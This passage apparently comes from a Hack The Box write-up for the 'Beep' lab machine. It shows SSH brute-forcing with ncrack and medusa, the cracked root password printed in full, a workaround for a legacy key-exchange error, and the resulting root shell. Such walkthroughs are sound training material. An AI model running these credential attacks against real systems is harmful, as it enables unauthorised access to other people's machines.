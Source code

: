 ```shell
❯ ncrack -p 22 -U htb/box/Beep/users.txt -P passwords.txt 10.10.10.7 -T 5

Starting Ncrack 0.7 ( http://ncrack.org ) at 2021-12-22 18:41 EST

Discovered credentials for ssh on 10.10.10.7 22/tcp:
10.10.10.7 22/tcp ssh: 'root' 'jEhdIekWmdjE'

Ncrack done: 1 service scanned in 42.01 seconds.

Ncrack finished.
```

Oh medusa is as well:

```shell
❯ medusa -h 10.10.10.7 -U htb/box/Beep/users.txt -P passwords.txt -M ssh 10.10.10.7
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 10.10.10.7 (1 of 1, 0 complete) User: root (1 of 6, 0 complete) Password: amp109 (1 of 4 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.7 (1 of 1, 0 complete) User: root (1 of 6, 0 complete) Password: jEhdIekWmdjE (2 of 4 complete)
ACCOUNT FOUND: [ssh] Host: 10.10.10.7 User: root Password: jEhdIekWmdjE [SUCCESS]
```

Ok, that's enough... stop!

With that said you can just login to ssh with those valid credentials:

> Username: root
> Pasword: jEhdIekWmdjE

But oh no... you might get a key exchange algorithm problem:

```shell
❯ ssh root@10.10.10.7
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```

You can easily fix this, by specifying one of the algorithms that their offer and login as root:

```shell
❯ ssh -oKexAlgorithms=diffie-hellman-group-exchange-sha1 root@10.10.10.7
The authenticity of host '10.10.10.7 (10.10.10.7)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.7' (RSA) to the list of known hosts.
root@10.10.10.7's password:
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
[root@beep ~]# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast qlen 1000
    link/ether 00:50:56:b9:1d:bb brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.7/24 brd 10.10.10.255 scope global eth0
```